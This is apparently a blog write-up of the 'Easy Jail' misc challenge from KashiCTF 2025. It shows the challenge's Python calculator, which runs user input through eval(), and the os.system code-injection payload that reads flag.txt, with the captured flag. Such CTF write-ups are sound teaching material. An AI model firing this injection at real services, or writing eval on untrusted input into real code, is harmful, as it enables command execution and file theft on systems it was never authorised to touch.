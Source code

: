 ```yaml
---
title: "Easy Jail"
description: "I made this calculator. I have a feeling that it's not safe :("
pubDate: 2025-03-27
ctf: "KashiCTF 2025"
category: "misc"
author: "Tenzin"
section: "CTFs"
image: "images/25-kashi/icon.png"
---
```


Starting off the challenge, and initiating suffering, the instance is started. Using netcat to connect to the server, the following can be seen:
```
$ nc kashictf.iitbhucybersec.inc kashictf.iitbhucybersec.in 54179
           _            _       _
          | |          | |     | |
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|
>>
```
Passing in values, and inputting basic arithmetics, the calculation is done as expected from a calculator.
```
>> 2 + 3
2 + 3 --> 5
```
Checking the docker file is provided, and having access to the docker files, the following python code can be seen within the chall.py:
```
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```
The eval function stood out as it was relied upon for the computation. Moreover, it was used for returning the value that will be printed upon, so doing a quick search with "[exploiting eval function in python to print a file content](https://www.google.com/search?q=exploiting+eval+function+in+python+to+print+a+file+content)" resulted in the [Exploiting Python’s Eval](https://www.floyd.ch/?p=584) page. 
Within the page, it discusses method to exploit eval function in python, and the text `__import__('os').system('echo hello, I am a command execution')` comes across as a input that can be used to execute command on the system ran. 
Since we are attempting to print the flag.txt file, which is within the parent directory, as seenable within the chall.py, and structure of the challenge folder. The input is made changes to run the `cat ../flag.txt`, capturing the flag.
```
$ nc kashictf.iitbhucybersec.in 60230
           _            _       _
          | |          | |     | |
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|
>> __import__('os').system('cat ../flag.txt')
KashiCTF{3V4L_41NT_54F3_DGJ6tc1F}
__import__('os').system('cat ../flag.txt') --> 0
```